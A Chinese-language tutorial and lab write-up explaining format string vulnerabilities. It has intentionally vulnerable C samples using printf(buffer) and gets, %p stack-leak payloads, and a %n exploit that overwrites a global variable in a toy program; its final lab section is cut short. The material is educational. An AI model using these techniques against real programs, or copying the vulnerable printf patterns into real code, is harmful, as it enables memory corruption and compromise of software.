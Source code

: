 # Format String Vulnerability 1



​	格式化字符串漏洞是由于不良的编程实践导致的。如果一个程序，把用户输入作为参数没有做严格的校验就使用如 `printf` 、`sprintf`、`fprintf` 这类的函数进行格式化输出。那么攻击者可以通过利用漏洞实现任意内存读写。



下面是一段示例代码：

```C
int main(int argc, char** argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf(buffer);
    return 0;
}
```



`printf` 函数接收多个参数，它本身不能识别接收的参数个数，而是需要程序员通过使用格式化占位符，来指定要接收的参数个数以及参数的类型。



了解printf是如何读取多个参数的：

[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).

了解格式化占位符：

[this](http://www.cplusplus.com/reference/cstdio/printf/).



对于上面的示例代码，假设你给程序一个正常的输入，如输入你的用户名，像这样： `./string0 Rohit`

你会得到和你输入一样的字符串作为输出。但攻击者并不会按照你程序设想的来。假设你喂给程序的输入是 一个 `%x` （因为攻击者知道`printf`函数接收的第一个参数是格式化字符串，所以这没有什么奇怪的。）一个畸形的格式化字符串也许能泄露出栈上面的内容。



:astonished: 攻击者可以获取到 Stack 中的内容。​



### 获取栈上面的内容



尝试这样执行：

```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$
```
瞧，发生了什么？



`%p` 是以十六进制格式打印内存中的内容的格式化占位符。攻击者戏弄 **printf** ，通过喂给程序格式化占位符，而不是一般的字符串，让它打印出内存中的内容。这就是格式化字符串漏洞。



### 除此之外还能做什么？



不仅仅是泄露内存数据。这类型的漏洞可以允许攻击者写任意内存。要想理解写任意内存的实现原理，我们需要先弄清楚一个特殊的格式化占位符：`%n` 。这个占位符可以让 **printf** 根据后面跟的一个参数，写任意内存地址。

e.g

```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```


简单讲，`%n` 把前面字符串中字符的个数写到变量`i`的地址内存中。





现在我们明确了两样东西：

* 复用格式化占位符作为 printf() 的传入参数来获取内存中的数据.
* 修改Stack上任意内存空间(变量的值).



### 来看一个实际的利用 :metal:




利用格式化字符串很重要的一点在于确定offset。首先我们需要确定大概需要跳过多少个4byte大小（x86）的内存，然后就可以触碰到buffer。为了确定这个offset，我首先输入 `AAAA` 作为buffer的起始，使用下面的payload进行测试：

​	``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``

得到的程序输出如下：

​	`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`



留意这里，`0x41414141` 是在程序输出中的倒数第三个。对应就是我们输入的AAAA。这就意味着我们越过9个 `%p`后，也就是第10个的时候就是我们的buffer的位置。你需要自己在自己的环境中进行测试，你可能会是跟我这里不一样的offset。

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```


​	现在，我要来证明如何使用我们已经学到的知识来改变程序的控制流。请看上面这段代码，利用前面讲的方法通过利用格式化字符串漏洞来确定到buffer的offset。进一步确定buffer的address。

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`

​	Output:

`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.

​	在我这个环境中这里同样是在 第10个位置上。:metal:

接下来思考一下：

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`

​	上面的命令会把格式化字符串的长度 `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` 写入到第 `10th` 个参数所指向的内存地址中. 在这里，由于第10个参数对应的内容是 0x41414141 所以它会尝试把 32 写入`0x41414141` 这个地址 。 由于这个地址（0x41414141）本身应该是 read-only memory, 所以你会得到一个 `Segmentation Fault`. 

​	那么对于这种情况，假如说我们喂给程序的是一个有意义的值，而不是 `0x41414141` 那又会怎样呢？如此一来，使用 `%n` 就可以把值写到我们提供的内存地址了。



​	对于上面这个案例，我们可以通过静态的方式去拿变量 `myvar` 的地址。

`objdump -t ./string1 | grep myvar`</br>
`0804a028 g     O .bss    00000004              myvar`

​	第一列所对应的就是`myvar`变量的地址。

​	接着我们要构造exploit实现修改程序中变量的值来实现修改程序后面的控制流结构。

`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``

​	得到如下的输出：

``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

​	:cool: 我们成功地利用了这个漏洞。



#### 学到了什么：



​	利用格式化字符串漏洞，我们可以exploit程序，实现修改任意地址内存中的值。


## Lab WP

编译，关闭PIE

```
```

通过调试拿到myvar变量在内存中的地址：

<img width="739" height="661" alt="image" src="https://github.com/user-attachments/assets/d4d73178-5569-4f2d-99c7-5aeef7f16148" />



